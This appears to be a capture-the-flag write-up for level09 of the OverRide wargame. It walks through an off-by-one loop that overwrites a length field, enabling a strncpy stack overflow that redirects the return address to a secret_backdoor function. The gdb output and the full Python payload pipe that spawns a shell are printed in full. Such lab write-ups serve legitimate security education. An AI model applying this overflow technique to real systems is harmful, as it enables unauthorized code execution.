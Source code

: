 This level ask a username and a message from stdin.

	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: ko
	>: Welcome, ko
	>: Msg @Unix-Dude
	>>: Hello World      
	>: Msg sent!

After checking the binary we can see that our password and message are stored in a struct containing **message[140] username[40] len**. (The order is important)

Inside the reversed code there is this interesting line
```c
for (int32_t i = 0; i <= 0x28; i += 1)
```
**0x28 = 40**, since i check until <= 40 it will loop 41 time letting us overflow from 1 byte rewriting len since its stored just after username.

Len is used in strncpy inside the function set_msg it means that we can write more than 140 char inside message. The max is 255 since its an overflow of only one byte.

Inside the binary there is a function called *secret_backdoor()* executing the parameter given. So we just have to rewrite the return address with secret_backdoor's firt instruction.

Let's check the differents address needed.

	Starting program: /home/users/level09/level09 < <(python -c 'print "B"*40+"\xff"+"\n"+"A"*200+"BBBB"')
	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
	>>: >: Msg sent!

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000a42424242 in ?? ()

We rewrite the return after 200 char inside message.

	(gdb) disas secret_backdoor 
	Dump of assembler code for function secret_backdoor:
	   0x000055555555488c <+0>:	push   %rbp
	   0x000055555555488d <+1>:	mov    %rsp,%rbp
	   0x0000555555554890 <+4>:	add    $0xffffffffffffff80,%rsp
	   ...

**0x000055555555488c** will be our targeted address.

The final command look like this

	(python -c 'print "B" * 40 + "\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09

+ `"B" * 40` To fill the username.
+ `+ "\xff"` It's gonna set len to 255.
+ `"B" * 200` To fill message until targeted overflow.
+ `"\x8c\x48\x55\x55\x55\x55\x00\x00"` secret_backdoor's 1st instruction address.
+ `""/bin/sh\n""` secret_backdoor's parameter.

**"\n"** are used to pass between variables like username message etc.

	level09@OverRide:~$ (python -c 'print "B" * 40 + "\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09
	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
	>>: >: Msg sent!
	whoami
	end

Finished !